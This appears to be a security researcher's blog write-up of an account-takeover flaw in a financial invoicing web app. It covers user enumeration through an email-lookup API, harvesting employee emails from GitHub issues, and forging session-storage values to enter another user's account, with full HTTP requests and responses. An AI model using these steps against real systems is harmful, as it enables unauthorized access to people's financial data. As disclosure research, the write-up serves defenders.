




This blog explores the method of account takeover by manipulating the local session storage in a financial web application.
Target Background
The target of this analysis is a web application designed for financial purposes. It provides a comprehensive suite of features for generating, tracking, and reconciling invoices. Users can effectively manage payments and perform various financial activities within the application.
Overview
To evaluate the application's security, I created a test account through the signup functionality. After logging in, the application prompted me to create an organization, allowing access to team members and assigning them specific roles based on their responsibilities.
Reconnaissance
- ReactJS framework
- Akamai Web Application Firewall (WAF)
- Relies on REST APIs
- Utilizes cookie-based authentication
User Enumeration
During the login process, after entering my username and password, the application sent a request to an API endpoint to verify if the user was part of the organization or if the user existed in the database.
Request
GET /api/v1/user?email=nj@tvhsecurity.com HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers
Response
HTTP/1.1 200 OK
Date: Wed, 29 Mar 2023 05:59:48 GMT
X-Powered-By: Express
Access-Control-Allow-Origin: *
Content-Type: application/json; charset=utf-8
Content-Length: 370
ETag: W/"172-rQhbOJIDRtY57xxDgEWDAhUpziE"
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Referrer-Policy: strict-origin-when-cross-origin
Connection: close
Strict-Transport-Security: max-age=31536000; includeSubDomains
{
"status": true,
"message": "Successfully Retrieved",
"result": [
{
"UserId":601███,
"EmailId": "nj@tvhsecurity.com",
"RegionId": 160,
"RegionName": "IN",
"RoleId": 100,
"RoleName": "Admin",
"CountryId": 26█,
"CountryName": "India",
"Status": "Approved",
"Name": "Naveen J",
"DeliveryCentre": "Bangalore, India",
"IsActive": true,
"SubProcess": "null"
}
]
}
Post Login
After logging into the application, I explored the JavaScript files and local storage. I discovered that the session storage stored information retrieved from the user verification request response, preserving the user's details.

Theory
My initial theory aimed to test the session storage vulnerability as the application solely relied on encrypted cookies for authentication. To validate this theory, I needed another user account, so I created an additional test account.
With two legitimate user accounts, I tested the theory that it would work if the application verified users based on the session storage key values.
The screenshot below displays the session storage of the User1 account.

I simply had to pass the email ID of the User2 account in the email verification request to obtain the desired details for manipulation.
GET /api/v1/user?email=nj+1@tvhsecurity.com HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers
I copied the required payload from the JSON response and modified the session value of the login key. Upon refreshing the page, I successfully logged into the User2 account.
Notes:
- User1 = nj@tvhsecurity.com
- User2 = nj+1@tvhsecurity.com
Since both accounts were fresh and lacked real-world financial data, I was unable to definitively confirm the issue. To validate it, I needed to engage with the application's financial functionalities, which was not feasible at that time.
Therefore, I decided to try the theory with a live account. To do so, I needed to enumerate the users within the application, which was relatively simple. I compiled a list of email IDs belonging to the target organization.
OSINT
I conducted OSINT reconnaissance on the target, searching for email IDs. While browsing through the organization's contact pages, I discovered some email IDs belonging to the company's business personnel. Unfortunately, none of them proved to be successful.
GitHub Recon
Next, I performed reconnaissance on GitHub using specific search queries and found a few email IDs in the issues section. Individuals from the organization had commented on issues related to their product/service repositories.

I compiled a list of these email IDs and submitted them to Intruder to check the content length. Fortunately, a few of them yielded positive results.
Verify User
Request
GET /api/v1/user?email=ba████████@target.com HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers
Response
HTTP/1.1 200 OK
Date: Wed, 29 Mar 2023 05:59:48 GMT
X-Powered-By: Express
Access-Control-Allow-Origin: *
Content-Type: application/json; charset=utf-8
Content-Length: 370
ETag: W/"172-rQhbOJIDRtY57xxDgEWDAhUpziE"
Set-Cookie: ; Path=/; HttpOnly
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Referrer-Policy: strict-origin-when-cross-origin
Connection: close
Strict-Transport-Security: max-age=31536000; includeSubDomains
{
"status": true,
"message": "Successfully Retrieved",
"result": [
{
"UserId": 10██,
"EmailId": "ba████████@target.com",
"RegionId": [
300,
300
],
"RegionName": "NA",
"RoleId": 100,
"RoleName": "Admin",
"CountryId": 200,
"CountryName": "United States",
"Status": "Approved",
"Name": "Bane Smith",
"DeliveryCentre": "New York, United States",
"IsActive": true,
"SubProcess": "null"
}
]
}
Checkpoint
- We have a valid user email
- Obtained the required details for session value manipulation
Extracted New Session Value
{
"UserId": 10██,
"EmailId": "ba████████@target.com",
"RegionId": 100,
"RegionName": "NA",
"RoleId": 100,
"RoleName": "Admin",
"CountryId": 200,
"CountryName": "United States",
"Status": "Approved",
"Name": "Bane Smith",
"DeliveryCentre": "New York, United States",
"IsActive": true,
"SubProcess": "null"
}
The above value needs to be passed to the session storage to test the theory.
Exploitation
After successfully passing the extracted legitimate user's details in the session storage value and refreshing the page, the application granted me access to the user's account.

As depicted in the screenshot, I was able to view the invoices generated in the target user's account.
Please note that due to non-disclosure agreements, the information shared is limited.
Thank you for reading!
For more updates and insights, follow me on Twitter: @thevillagehacker.